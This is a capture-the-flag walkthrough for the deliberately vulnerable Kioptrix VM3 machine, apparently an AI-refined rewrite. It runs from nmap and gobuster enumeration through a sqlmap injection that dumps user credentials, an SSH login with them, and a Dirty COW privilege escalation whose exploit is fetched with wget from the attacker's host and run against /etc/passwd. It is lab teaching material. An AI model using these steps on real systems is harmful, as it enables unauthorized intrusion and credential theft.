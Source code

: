Here is a refined walkthrough for the Kioptrix VM3 penetration testing scenario, providing more clarity, added explanations, and details on the process. I've also included some corrections and improvements to make the walkthrough more useful and complete:


---

Kioptrix VM3 Walkthrough

By MIDO

Prerequisites:

1. Kioptrix VM3 image running on VMware.


2. Attacker machine (e.g., Kali Linux).


3. Basic knowledge of Linux and penetration testing tools.



1. Network Configuration and Target Information

Ensure that the Kioptrix VM3 and the attacking machine are on the same network. For this example, let's assume the target IP address of the Kioptrix VM3 is 192.168.48.149.

To identify the target’s IP address in your network, run a network scan from your attacking machine using nmap:

nmap 192.168.48.1/24 -T4

This command scans the subnet 192.168.48.1/24 with a timing option -T4 for faster results.

Sample Output:

Nmap scan report for 192.168.48.149
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)

From this output, we can see that the target IP 192.168.48.149 has SSH (port 22) and HTTP (port 80) open.

2. Bind Target IP to Domain Name

Next, bind the target’s IP address to a domain name in your /etc/hosts file to make it easier to reference:

sudo nano /etc/hosts

Add the following line to the file:

192.168.48.149 kioptrix3.com

Verify the changes:

cat /etc/hosts

The output should include:

127.0.0.1 localhost
127.0.1.1 kali
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.48.149 kioptrix3.com

3. Service Enumeration (Port Scanning)

Run a full service version scan on the target to identify running services:

nmap -sV 192.168.48.149

Sample Output:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch

From this output, we know the target is running Apache on port 80 and OpenSSH on port 22.

4. Enumerating HTTP Services

Port 80 (HTTP) is open, so we access the web application by opening a browser and navigating to:

http://kioptrix3.com/

To further enumerate hidden directories, use Gobuster with a wordlist:

gobuster dir -u http://kioptrix3.com/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

Sample Output:

/modules (Status: 301)
/gallery (Status: 301)
/data (Status: 403)
/core (Status: 301)
/style (Status: 301)
/cache (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)

Here, directories like /modules, /gallery, and /phpmyadmin stand out as interesting targets.

5. Web Application Vulnerabilities

By using Nikto to scan the /gallery directory:

nikto -h http://kioptrix3.com/gallery

Sample Nikto Output:

/gallery/: The X-Content-Type-Options header is not set.
PHP/5.2.4-2ubuntu5.6 appears to be outdated.
Apache/2.2.8 appears to be outdated.
...
/gallery/db.sql: DATABASE SQL FOUND!

We have found a SQL database located in /gallery/db.sql.

6. SQL Injection Exploitation

Using the SQLmap tool, we exploit a SQL injection vulnerability found in the URL parameter id=1 of the /gallery.php page:

sqlmap --batch --banner -u http://kioptrix3.com/gallery/gallery.php?id=1 --dump

SQLmap Output:

[INFO] fetching current database
[INFO] fetching tables for database: 'gallery'
[INFO] retrieved: 'dev_accounts'
[INFO] fetched: 'dev_accounts' table entries

SQLmap successfully extracts data from the dev_accounts table, revealing usernames and password hashes:

+----+---------------------------------------------+------------+
| id | password                                   | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+

We now have the username and password hash for both users.

7. Accessing SSH with Cracked Password

Using the extracted credentials, we try to log in via SSH with the username loneferret and password starwars:

ssh loneferret@192.168.48.149

If the connection fails due to an unsupported host key algorithm, use the following:

ssh loneferret@192.168.48.149 -oHostKeyAlgorithms=+ssh-rsa

Once logged in, we can explore the file system and check for privilege escalation opportunities.

8. Privilege Escalation

To elevate our privileges to root, first check the sudo privileges:

sudo -l

Output:

User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht

Since we have sudo access to /usr/local/bin/ht, we can execute this binary with root privileges.

Alternatively, we could look for SUID binaries or vulnerabilities like Dirty COW:

searchsploit linux/local/40839

Copy the exploit to your machine:

python3 -m http.server 8000
wget http://192.168.48.157:8000/40839.c

Compile and run the exploit:

gcc -pthread 40839.c -o dirty -lcrypt
./dirty /etc/passwd

This would allow us to overwrite the /etc/passwd file, granting us root access.


---

Note: The use of these tools should be restricted to authorized environments only, such as Capture the Flag (CTF) challenges, penetration testing with permission, or educational purposes. Always have explicit consent before testing systems.

